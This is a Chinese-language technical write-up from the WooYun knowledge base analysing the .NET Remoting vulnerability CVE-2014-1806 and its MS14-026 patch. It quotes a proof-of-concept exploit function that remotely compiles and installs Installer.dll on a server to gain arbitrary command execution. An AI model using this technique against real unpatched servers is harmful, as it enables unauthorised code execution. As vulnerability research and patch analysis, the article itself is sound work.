# CVE-2014-1806 .NET Remoting Services 漏洞浅析

2014/11/24 12:02 | [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 简介

* * *

Microsoft .NET Remoting 是一种分布式处理方式，提供了一种允许对象通过应用程序域与另一对象进行交互的框架。前几天 James Forshaw 发布了 CVE-2014-1806 .NET Remoting Services 的漏洞利用程序，花了一些时间对其进行一下简单的调试分析。

首先安装包含漏洞的.NET Framework v4.0.30319，执行 poc 代码，可以看到执行成功了。



## 0x01 分析

* * *

对 poc 代码进行分析，可以看到下面的代码 CreateRemoteClass，其中 MakeCall 模板函数根据参数信息构建发送到服务器端的请求数据并得到服务器执行结果，其中 static object SendRequest(object o, bool remote) 函数完成对象的序列化、协议数据包的构建发送以及执行结果的解析。

例如 MakeCall<string>(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"))是用于调用远程服务器中 Path 对象的 GetTempPath 方法，并返回执行结果。Poc 中的代码用于在远端服务器中上传、编译 RemoteClass.cs、IRemoteClass.cs、InstallClass.cs 文件得到 Installer.dll，然后安装 Installer.dll，最终创建 IRemoteClass 的对象实体。在得到 IRemoteClass 对象之后，就能调用它的方法执行任意命令了。</string>

```
private static IRemoteClass CreateRemoteClass()
{
    if (_useser)
    {
        return new SerializerRemoteClass();
    }
    else
    {
        string path;
        if (_uri.Scheme != "ipc")
        {
            IRemoteClass ret = GetExistingRemoteClass();

            try
           {
               ret.ToString();
               return ret;
           }
           catch (RemotingException)
           {
           }

           path = MakeCall<string>(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"));
          path = Path.Combine(path, "Installer.dll");
          CodeDomProvider compiler = MakeCall<CodeDomProvider>(_uri.AbsolutePath, GetCreateInstance<CSharpCodeProvider>());

          string uri = RemotingServices.GetObjectUri(compiler);
          CompilerParameters cp = new CompilerParameters();
          cp.ReferencedAssemblies.Add("System.dll");
          cp.ReferencedAssemblies.Add("System.Configuration.Install.dll");
          cp.OutputAssembly = path;

          cp.GenerateInMemory = false;
          cp.GenerateExecutable = false;

          string code = GetResource("RemoteClass.cs");
          string intf = GetResource("IRemoteClass.cs");
          string inst = GetResource("InstallClass.cs");

CompilerResults res = MakeCall<CompilerResults>(uri,new FakeMethod(typeof(CodeDomProvider).GetMethod("CompileAssemblyFromSource"), _ver), cp, new string[] { code, intf, inst });
          }
          else
          {
              path = typeof(IRemoteClass).Assembly.Location;
          }
          try
          {
             AssemblyInstaller installer = MakeCall<AssemblyInstaller>(_uri.AbsolutePath, GetCreateInstance<AssemblyInstaller>());
            installer.Path = path;
            installer.CommandLine = new string[] { "/name=" + _remotename };
            installer.UseNewContext = true;
            installer.Install(new Hashtable());
       }
       catch
       {
           // In the IPC case this might fail
           // Just continue on with the creation of the remote class and see if we're lucky            
       }
        return GetExistingRemoteClass();
    }
}

```

可以通过 WireShark 截包验证整个数据交互过程，其中包含文件的上传，服务端的%TEMP%目录下也相应的生成了 Installer.dll。



为了了解服务端的数据处理流程，通过 windbg 对 CreateProcessW 设置断点，通过 sos.dll 扩展来观察程序的托管代码调用堆栈。



通过托管代码的调用栈，结合.NET Reflector 对 System.Runtime.Remoting.dll 进行分析。

可以看到 System.Runtime.Remoting.Channels.Tcp.TcpServerTransportSink.ServiceRequest 方法通过 ITransportHeaders requestHeaders = handler.ReadHeaders()和 Stream requestStream = handler.GetRequestStream()获取了协议头和请求的对象流信息。

然后调用 System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage 方法 ，该方法中通过 requestMsg = CoreChannel.DeserializeBinaryRequestMessage(uRI, requestStream, this._strictBinding, this.TypeFilterLevel)对请求的对象流进行反序列化，成功之后则调用 System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage。





System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage 中简单判断之后，直接调用了 ChannelServices.DispatchMessage(sinkStack, requestMsg, out responseMsg)分发消息。

DispatchMessage 中则只是通过 IsMethodReallyPublic(methodBase)和 RemotingServices.IsMethodAllowedRemotely(methodBase))判断了远端调用的方法是否允许，如果满足条件，则进一步处理，最终调用该方法。





整个过程中并没有对远端的身份进行有效性验证，而 Remoting 对远端提供的方法导致了可以通过 CreateInstance 在服务端得到获取 CodeDomProvider 对象、通过 CodeDomProvider 的 CompileAssemblyFromSource 方法编译源码、安装 Installer.dll，最后创建 IRemoteClass 类对象来执行命令的漏洞。

## 0x02 关于补丁

* * *

Microsoft 安全公告 MS14-026 中提到针对该漏洞的安全更新是通过帮助确保 .NET Framework 为应用程序内存正确强制实施安全控件来解决漏洞，即采用了变通方法，仅允许经过身份验证的客户端与容易受到攻击的服务器进行交互。





通过给 win7 sp1 打 NDP40-KB2931365-x86.exe 补丁，对比打补丁前后的 System.Runtime.Remoting.dll 的 System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage 方法，可以看到多了如下图的一段代码。



执行之前的 poc 代码，将发现服务端抛出异常，由于 allowTransparentProxyMessageValue 的值为 false，导致消息不会进一步被处理，与安全公告中描述的一致。如果 allowTransparentProxyMessageValue 的值为 true，程序的处理流程与未打补丁时相同。



版权声明：未经授权禁止转载 [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Android Adobe Reader 任意代码执行分析(附 POC)](http://drops.wooyun.org/papers/1440)
*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [从 Windows 到安卓：多重攻击机制的远控的分析](http://drops.wooyun.org/papers/1270)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [JBoss 安全问题总结](http://drops.wooyun.org/papers/178)
*   [Rsync 安全配置](http://drops.wooyun.org/papers/161)